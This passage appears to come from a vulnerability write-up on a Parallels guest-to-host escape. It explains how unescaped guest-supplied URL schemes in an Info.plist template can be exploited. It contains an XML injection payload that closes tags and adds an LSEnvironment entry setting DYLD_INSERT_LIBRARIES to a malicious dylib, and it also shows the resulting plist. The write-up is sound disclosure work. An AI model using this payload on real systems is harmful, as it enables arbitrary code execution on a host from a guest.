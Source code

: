 The `%1` is replaced with the guest-provided URL schemes, each wrapped in `<string></string>` tags. The completed template is then inserted into the Info.plist template later on.

This is what it looks like in code form: 
![URL scheme template](/assets/parallels-plist-escape/url_schemes_template.png)

One way this can be abused is by using the [LSEnvironment](https://developer.apple.com/library/archive/documentation/General/Reference/InfoPlistKeyReference/Articles/LaunchServicesKeys.html#//apple_ref/doc/uid/20001431-106825) key to set the `DYLD_INSERT_LIBRARIES` environment variable. This can be used to force the helper binary (WinAppHelper) to load an arbitrary dylib when executed. I did spend a while looking for other features of an Info.plist which I could exploit without requiring a second bug, but I wasn't able to find anything better. I'd be very keen to hear any alternative ideas for exploitation.

For example, if we provide the following string as a URL scheme:
```xml
      evil</string>
    </array>
  </dict>
</array>
<key>LSEnvironment</key>
<dict>
  <key>DYLD_INSERT_LIBRARIES</key>
  <string>/path/to/malicious.dylib</string>
</dict>
<key>blabla</key>
<array>
  <dict>
    <key></key>
      <array>
        <string>
```

This gets wrapped in \<string\> tags and inserted into the template, resulting in something like this:
```xml
<key>CFBundleURLTypes</key>
<array>
  <dict>
    <key>CFBundleURLName</key>
    <string>Supported protocols</string>
    <key>CFBundleURLSchemes</key>
    <array>
      <string>evil</string>
    </array>
  </dict>
</array>
<key>LSEnvironment</key>
<dict>
  <key>DYLD_INSERT_LIBRARIES</key>
  <string>/path/to/malicious.dylib</string>
</dict>
```
